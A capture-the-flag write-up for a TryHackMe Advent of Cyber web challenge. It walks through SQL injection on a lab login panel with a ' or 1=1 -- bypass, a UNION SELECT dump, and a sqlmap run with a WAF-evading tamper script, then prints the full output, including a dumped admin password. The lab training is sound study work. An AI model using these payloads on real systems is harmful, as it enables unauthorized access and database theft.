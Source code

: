 # Day 5 - Someone stole Santa's gift list! (Web Exploitation)

1. SQL Injection Resources:
    * [List of SQL Commands | Codecademy](https://www.codecademy.com/articles/sql-commands)
    * Cheat sheet: [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
    * Payload list: [payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)
    * In-depth SQL Injection tutorial: [SQLi Basics](https://tryhackme.com/room/sqlibasics)

2. Without using directory brute forcing, what's Santa's secret login panel? `/santapanel`

3. Visit Santa's secret login panel and bypass the login using SQLi

    1. Visit `http://10.10.43.99:8000/santapanel`

    2. Login with `' or 1=1 --` for username and password.

4. How many entries are there in the gift database? Run `' UNION SELECT NULL,NULL--` to dump the table. There are `22` entries in the gift database.

    | Gift                       | Child       |
    |----------------------------|-------------|
    | None                       | None        |
    | 10 McDonalds meals         | Thomas      |
    | TryHackMe Sub              | Kenneth     |
    | air hockey table           | Christopher |
    | bike                       | Matthew     |
    | books                      | Richard     |
    | candy                      | David       |
    | chair                      | Joshua      |
    | fazer chocolate            | Donald      |
    | finnish-english dictionary | James       |
    | github ownership           | Paul        |
    | iphone                     | Robert      |
    | laptop                     | Steven      |
    | lego star wars             | Daniel      |
    | playstation                | Michael     |
    | rasberry pie               | Andrew      |
    | shoes                      | James       |
    | skateboard                 | John        |
    | socks                      | Joseph      |
    | table tennis               | Anthony     |
    | toy car                    | Charles     |
    | wii                        | Mark        |
    | xbox                       | William     |

5. What did Paul ask for? `github ownership`

6. What is the flag?

    1. Can't just use `sqlmap` ([sqlmap cheat sheet](https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet)) by itself because there is a cookie sent in the request. So lets save the request using Burp Suite ([Setup Guide with Foxy Proxy](https://null-byte.wonderhowto.com/how-to/use-burp-foxyproxy-easily-switch-between-proxy-settings-0196630/)). Intercept a search request, right click it, and choose a save location.

    2. Run `sqlmap -r request --dump-all --dbms sqlite --tamper=space2comment`. Using `--tamper=space2comment` since the instructions state there is a Web Application Firewall (WAF). `--dump-all` will dump the entire database and `--dbms sqlite` says we known the database is `sqlite`, which was said in the instructions.

    3. When asked if you want to reduce the number of requests, specify `no`.

    4. `sqlmap` output:

        ```
        [*] starting @ 23:17:45 /2020-12-05/

        [23:17:45] [INFO] parsing HTTP request from 'request'
        [23:17:45] [INFO] loading tamper module 'space2comment'
        [23:17:45] [WARNING] provided value for parameter 'search' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
        [23:17:45] [INFO] testing connection to the target URL
        [23:17:45] [INFO] testing if the target URL content is stable
        [23:17:46] [INFO] target URL content is stable
        [23:17:46] [INFO] testing if GET parameter 'search' is dynamic
        [23:17:46] [INFO] GET parameter 'search' appears to be dynamic
        [23:17:46] [WARNING] heuristic (basic) test shows that GET parameter 'search' might not be injectable
        [23:17:46] [INFO] testing for SQL injection on GET parameter 'search'
        [23:17:46] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
        [23:17:47] [WARNING] reflective value(s) found and filtering out
        [23:17:48] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
        [23:17:49] [INFO] testing 'Generic inline queries'
        it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] n
        [23:17:55] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
        [23:18:02] [INFO] target URL appears to be UNION injectable with 2 columns
        [23:18:02] [INFO] GET parameter 'search' is 'Generic UNION query (NULL) - 1 to 10 columns' injectable
        [23:18:02] [INFO] checking if the injection point on GET parameter 'search' is a false positive
        [23:18:04] [WARNING] parameter length constraining mechanism detected (e.g. Suhosin patch). Potential problems in enumeration phase can be expected
        GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
        sqlmap identified the following injection point(s) with a total of 68 HTTP(s) requests:
        ---
        Parameter: search (GET)
            Type: UNION query
            Title: Generic UNION query (NULL) - 2 columns
            Payload: search=' UNION ALL SELECT NULL,'qpqvq'||'eFmzMHnCSwNyihzOtpHDLXxRTWoeLPybiiwmpJNW'||'qvxqq'-- IdjF
        ---
        [23:18:10] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
        [23:18:10] [INFO] testing SQLite
        [23:18:10] [INFO] confirming SQLite
        [23:18:10] [INFO] actively fingerprinting SQLite
        [23:18:10] [INFO] the back-end DBMS is SQLite
        back-end DBMS: SQLite
        [23:18:10] [INFO] sqlmap will dump entries of all tables from all databases now
        [23:18:10] [INFO] fetching tables for database: 'SQLite_masterdb'
        [23:18:10] [INFO] fetching columns for table 'users' in database 'SQLite_masterdb'
        [23:18:10] [INFO] fetching entries for table 'users' in database 'SQLite_masterdb'
        Database: SQLite_masterdb
        Table: users
        [1 entry]
        +------------------+----------+
        | password         | username |
        +------------------+----------+
        | EhCNSWzzFP6sc7gB | admin    |
        +------------------+----------+

        [23:18:11] [INFO] table 'SQLite_masterdb.users' dumped to CSV file '/home/kali/.sqlmap/output/10.10.43.99/dump/SQLite_masterdb/users.csv'                                                                                                                         
        [23:18:11] [INFO] fetching columns for table 'hidden_table' in database 'SQLite_masterdb'
        [23:18:11] [INFO] fetching entries for table 'hidden_table' in database 'SQLite_masterdb'
        Database: SQLite_masterdb
        Table: hidden_table
        [1 entry]
        +-----------------------------------------+
        | flag                                    |
        +-----------------------------------------+
        | thmfox{All_I_Want_for_Christmas_Is_You} |
        +-----------------------------------------+

        [23:18:11] [INFO] table 'SQLite_masterdb.hidden_table' dumped to CSV file '/home/kali/.sqlmap/output/10.10.43.99/dump/SQLite_masterdb/hidden_table.csv'                                                                                                           
        [23:18:11] [INFO] fetching columns for table 'sequels' in database 'SQLite_masterdb'
        [23:18:11] [INFO] fetching entries for table 'sequels' in database 'SQLite_masterdb'
        Database: SQLite_masterdb
        Table: sequels
        [22 entries]
        +-------------+-----+----------------------------+
        | kid         | age | title                      |
        +-------------+-----+----------------------------+
        | James       | 8   | shoes                      |
        | John        | 4   | skateboard                 |
        | Robert      | 17  | iphone                     |
        | Michael     | 5   | playstation                |
        | William     | 6   | xbox                       |
        | David       | 6   | candy                      |
        | Richard     | 9   | books                      |
        | Joseph      | 7   | socks                      |
        | Thomas      | 10  | 10 McDonalds meals         |
        | Charles     | 3   | toy car                    |
        | Christopher | 8   | air hockey table           |
        | Daniel      | 12  | lego star wars             |
        | Matthew     | 15  | bike                       |
        | Anthony     | 3   | table tennis               |
        | Donald      | 4   | fazer chocolate            |
        | Mark        | 17  | wii                        |
        | Paul        | 9   | github ownership           |
        | James       | 8   | finnish-english dictionary |
        | Steven      | 11  | laptop                     |
        | Andrew      | 16  | rasberry pie               |
        | Kenneth     | 19  | TryHackMe Sub              |
        | Joshua      | 12  | chair                      |
        +-------------+-----+----------------------------+

        [23:18:11] [INFO] table 'SQLite_masterdb.sequels' dumped to CSV file '/home/kali/.sqlmap/output/10.10.43.99/dump/SQLite_masterdb/sequels.csv'                                                                                                                     
        [23:18:11] [WARNING] HTTP error codes detected during run:
        400 (Bad Request) - 1 times
        [23:18:11] [INFO] fetched data logged to text files under '/home/kali/.sqlmap/output/10.10.43.99'

        [*] ending @ 23:18:11 /2020-12-05/
        ```

    5. The flag is `thmfox{All_I_Want_for_Christmas_Is_You}`.

7. What is admin's password? `EhCNSWzzFP6sc7gB`.
